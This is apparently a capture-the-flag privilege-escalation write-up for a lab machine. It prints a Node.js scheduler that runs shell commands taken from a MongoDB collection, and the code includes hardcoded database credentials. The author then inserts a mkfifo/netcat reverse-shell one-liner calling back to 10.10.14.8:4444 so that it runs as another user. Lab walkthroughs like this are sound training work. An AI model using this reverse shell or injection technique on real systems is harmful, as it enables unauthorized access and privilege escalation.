 # 30 - PrivEsc


# linpeas.sh

![](vx_images/681879731664.png)

# app.js


```js
mark@node:/var/scheduler$ cat app.js 
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
```

This program opens a connection to mongodb "scheduler" database and it grabs everything in "tasks" *collection* and stores it in "docs". "docs" in the app is basically an array of key-value pairs. After that it proceeds to execute each value stored in "cmd". This is the place where my reverse shell goes since app.js is executed by the user "tom".


```mongo -u mark -p 5AYRft73VtFpc84k scheduler
> db.tasks.insert( { cmd: 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f'})
WriteResult({ "nInserted" : 1 })
> db.tasks.find()
{ "_id" : ObjectId("60a14b280249aa0efd687520"), "cmd" : "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" }
```

![](vx_images/5961738238787.png)


